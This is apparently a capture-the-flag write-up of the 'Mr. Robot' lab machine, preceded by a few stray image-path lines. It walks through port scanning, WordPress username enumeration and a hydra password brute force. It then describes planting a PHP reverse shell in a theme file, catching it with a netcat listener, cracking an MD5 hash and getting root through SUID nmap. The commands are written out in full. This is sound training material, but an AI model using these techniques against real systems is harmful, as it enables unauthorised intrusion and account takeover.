




Nmap Scan Results
Let’s start by scanning open ports on the target machine. Here’s what nmap revealed:
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
MAC Address: 02:6E:76:1C:2E:07 (Unknown)
Ports 80 and 443 are open running Apache, but neither site has a proper title or header.
Enumerating HTTP and HTTPS
Interacting with the HTTP and HTTPS services didn't immediately reveal much. Here's a look at robots.txt which caught my attention:
User-agent: *
fsocity.dic
key-1-of-3.txt
Looks like we found the first key file key-1-of-3.txt and a wordlist named fsocity.dic.
Downloading the wordlist with wget:
wget http://10.10.99.69/fsocity.dic
The file contains tons of duplicate words:
angela
angela
angela
...
So I cleaned it up by removing duplicates:
sort fsocity.dic | uniq -d > clean-dic.txt
Running gobuster on the site revealed it’s running Wordpress:
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
Accessing /wp-login.php gave me a login page where username enumeration was possible.
Here, I tested some usernames and confirmed we can enumerate usernames.

Confirmed 'elliot' is a valid username, while guessing main Mr. Robot characters
Next, I brute forced the login using hydra with the cleaned dictionary and username 'elliot':
hydra -l elliot -P clean-dic.txt 10.10.99.69 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
Hydra found a valid password for elliot!
elliot:XXXXXXX
After logging in, going to Appearance --> Editor gives us a form to edit stuff in
Here is the editor where I can modify theme files.
I edited the 404.php template with a PHP reverse shell (from pentestmonkey’s repo), adding my IP and port.
After updating the 404.php with the reverse shell code.
Remember to start your listener:
nc -lvnp 1337
Visiting a non-existent page triggers the reverse shell, and I got a shell as user daemon:
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.4.7.139] from (UNKNOWN) [10.10.99.69] 39735
$ whoami
daemon
Privilege Escalation
Looking inside /home/robot I found two files:
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5
I couldn't read the second key, but I could read the password hash:
robot:c3fcd3d76192e4007dfb496cca67e13b
I took the hash to CrackStation and got the password!
Screenshot of cracked password on CrackStation.
Trying to switch user with su robot initially failed because the shell was unstable:
su: must be run from a terminal
I stabilized the shell with:
python3 -c 'import pty; pty.spawn("/bin/bash")'
After that, we can switch to the robot user successfully.
Getting Root
After more enumeration, I didn’t find much at first. Then I checked for SUID binaries:
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
...
/usr/local/bin/nmap
...
If you’ve done Boot2Root machines before, you know nmap with SUID is suspicious. Checking GTFOBins confirmed it
GTFOBins nmap exploit snippet.
Exploiting the SUID nmap binary to spawn a root shell:
nmap --interactive
nmap> !sh
# whoami
root
This machine was very fun. The final key was in /root.